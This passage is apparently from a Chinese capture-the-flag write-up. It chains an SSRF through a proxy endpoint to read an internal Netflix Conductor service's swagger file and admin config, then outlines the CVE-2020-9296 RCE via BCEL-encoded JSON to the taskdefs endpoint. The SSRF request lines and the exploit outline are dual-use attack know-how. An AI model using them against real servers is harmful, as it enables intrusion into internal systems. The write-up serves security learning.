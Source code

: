 根据 swagger.json 拿到接口列表

```
/proxy?url=http://0.0.0.0:3000/search?url=http://10.0.122.14:8080/api/swagger.json
```

先从配置下手

```
/proxy?url=http://0.0.0.0:3000/search?url=http://10.0.122.14:8080/api/admin/config
{ 
"jetty.git.hash": "b1e6b55512e008f7fbdf1cbea4ff8a6446d1073b",
"loadSample": "true", 
"io.netty.noUnsafe": "true", 
"conductor.jetty.server.enabled": "true",
"io.netty.noKeySetOptimization": "true", 
"buildDate": "2021-04-03_17:38:09", "io.netty.recycler.maxCapacityPerThread": "0", 
"conductor.grpc.server.enabled": "false", 
"version": "2.26.0-SNAPSHOT", 
"queues.dynomite.nonQuorum.port": "22122", 
"workflow.elasticsearch.url": "es:9300", 
"workflow.namespace.queue.prefix": "conductor_queues", 
"user.timezone": "GMT", 
"workflow.dynomite.cluster.name": "dyno1", 
"sun.nio.ch.bugLevel": "", 
"workflow.dynomite.cluster.hosts": "dyno1:8102:us-east-1c",
"workflow.elasticsearch.instanceType": "external", 
"db": "dynomite", 
"queues.dynomite.threads": "10", 
"workflow.namespace.prefix": "conductor",
"workflow.elasticsearch.index.name": "conductor" 
}
```

版本为 `2.26.0-SNAPSHOT` 

### Netflix Conductor RCE

参考 [CVE-2020-9296-Netflix-Conductor-RCE-漏洞分析](https://xz.aliyun.com/t/7889#toc-4)

> 这个漏洞出在 `/api/metadata/taskdefs` 上，需要 POST 一个 JSON 过去，里面含有恶意的 BCEL 编码，可以造成 RCE。 

什么是 BCEL编码

> [http://commons.apache.org/proper/commons-bcel/](https://commons.apache.org/proper/commons-bcel/)
>
> The Byte Code Engineering Library (Apache Commons BCEL™) is intended to give users a convenient way to analyze, create, and manipulate (binary) Java class files (those ending with .class). Classes are represented by objects which contain all the symbolic information of the given class: methods, fields and byte code instructions, in particular.
>
> Byte Code Engineering Library (BCEL)，这是Apache Software Foundation 的Jakarta 项目的一部分。BCEL是 Java classworking 最广泛使用的一种框架,它可以让您深入 JVM 汇编语言进行类操作的细节。

可以用 [BCELCodeman](https://github.com/f1tz/BCELCodeman) 这个工具来编码、解码。 
